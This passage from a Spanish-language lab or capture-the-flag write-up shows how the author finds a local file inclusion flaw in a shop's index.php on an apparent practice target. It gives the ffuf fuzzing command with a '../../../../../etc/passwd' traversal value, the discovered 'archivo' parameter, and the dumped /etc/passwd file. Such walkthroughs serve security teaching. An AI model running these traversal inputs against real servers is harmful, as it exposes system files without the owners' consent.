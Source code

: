 Vemos que utiliza un `index.php` por lo que nos confirma que puede tener alguna vulnerabilidad, por lo que vamos a realizar un poco de `fuzzing` para ver si lee el `passwd`.

## FFUF

```shell
ffuf -u http://<IP>/shop/index.php\?FUZZ\=../../../../../etc/passwd -w <WORDLIST> -fs 1112
```

Info:

```

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/shop/index.php?FUZZ=../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1112
________________________________________________

archivo                 [Status: 200, Size: 2253, Words: 373, Lines: 69, Duration: 3ms]
:: Progress: [20469/20469] :: Job [1/1] :: 4081 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

Vemos que nos encontro el parametro `archivo` por lo que confirmamos ya que se puede hacer un `LFI`, vamos a probarlo metiendo lo siguiente:

```
URL = http://<IP>/shop/index.php?archivo=../../../../../etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
```